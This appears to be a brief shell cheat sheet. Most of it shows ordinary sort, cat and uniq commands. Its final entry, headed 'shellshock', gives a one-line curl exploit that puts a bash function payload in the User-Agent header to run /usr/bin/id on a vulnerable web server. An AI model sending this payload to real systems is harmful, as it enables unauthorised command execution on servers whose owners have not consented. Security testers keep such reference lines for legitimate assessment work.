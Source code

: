 ## Sort the content of a file (like cat)
```
sort <hello-txt>
```

## Save to sorted content to a new file
```
cat <file1-txt> | sort > <sorted-file1-txt>
```

## Sort and remove duplicates and save to a new file
```
sort <file1-txt> | uniq > <uniq-file1-txt>
```

## shellshock
```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" <url>
```
